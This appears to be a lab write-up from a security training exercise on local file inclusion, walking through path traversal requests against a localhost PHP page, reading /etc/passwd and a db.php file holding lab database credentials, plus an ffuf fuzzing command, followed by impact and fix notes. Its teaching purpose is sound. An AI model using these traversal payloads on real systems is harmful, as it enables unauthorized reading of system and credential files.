





# File Inclusion 0x02

## What is Local File Inclusion (LFI)?
LFI is a vulnerability where a website includes 
files based on user input without proper validation.
This lab demonstrates a harder LFI with deeper 
path traversal required.

## Target
http://localhost/labs/fi0x02.php

## Vulnerability
The filename parameter accepts user input:
fi0x02.php?filename=files/chocolate_cake.txt

## Attack

### Step 1 — Identify the parameter
Intercepted request in Burp Suite Repeater:
GET /labs/fi0x02.php?filename=files/chocolate_cake.txt

### Step 2 — Test deeper path traversal
Changed filename to:
GET /labs/fi0x02.php?filename=../../../etc/passwd

### Step 3 — Error analysis
Server returned error revealing file path:
file_get_contents(etc/passwd): failed to open stream

### Step 4 — Successful deeper traversal
Used more levels of path traversal:
GET /labs/fi0x02.php?filename=../../../../../../etc/passwd

### Step 5 — Database credentials found!
Used LFI to read db.php source file and found:
$servername = "bb-db"
$username = "bb-labs-user"
$password = "bb-labs-password"
$dbname = "bb-labs"

### Step 6 — ffuf fuzzing
Used ffuf to automate LFI testing:
ffuf -u 'http://localhost/labs/fi0x02.php?
filename=FUZZ/etc/passwd' -w traversal.txt

## Result
Successfully read /etc/passwd and found 
database credentials in db.php

## Screenshots

## Impact
- Full server file system access
- Database credentials exposed
- Complete application compromise possible

## Fix
- Validate and sanitize all user input
- Never use user input directly in file paths
- Store sensitive files outside web root
- Use whitelisting for allowed filenames
